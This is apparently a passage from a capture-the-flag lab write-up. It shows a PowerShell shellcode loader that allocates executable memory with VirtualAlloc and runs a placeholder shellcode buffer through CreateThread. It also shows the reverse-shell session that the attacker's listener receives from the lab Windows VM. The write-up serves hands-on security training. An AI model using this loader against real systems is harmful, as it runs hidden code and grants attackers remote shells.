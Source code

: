Add-Type $WaitFor

$CrtThread= @"
using System;
using System.Runtime.InteropServices;

public class CrtThread{
 [DllImport("kernel32", CharSet=CharSet.Ansi)]
    public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
  
}
"@
Add-Type $CrtThread   

[Byte[]] $buf = SHELLCODE_PLACEHOLDER
[IntPtr]$addr = [VrtAlloc]::VirtualAlloc(0, $buf.Length, 0x3000, 0x40)
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $addr, $buf.Length)
$thandle = [CrtThread]::CreateThread(0, 0, $addr, 0, 0, 0)
[WaitFor]::WaitForSingleObject($thandle, [uint32]"0xFFFFFFFF")
```
- Using this script on the vm generates the following response on the attackbox
 ``` Listening on 0.0.0.0 1111
Connection received on 10.10.66.215 49868
Microsoft Windows [Version 10.0.17763.6293]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\glitch>
 ```

- We can now run commands on the vm through the virtualbox
- repeating this process with the port 4444, we get the flag in the desktop

## What I learned
- Usage of shellcoding
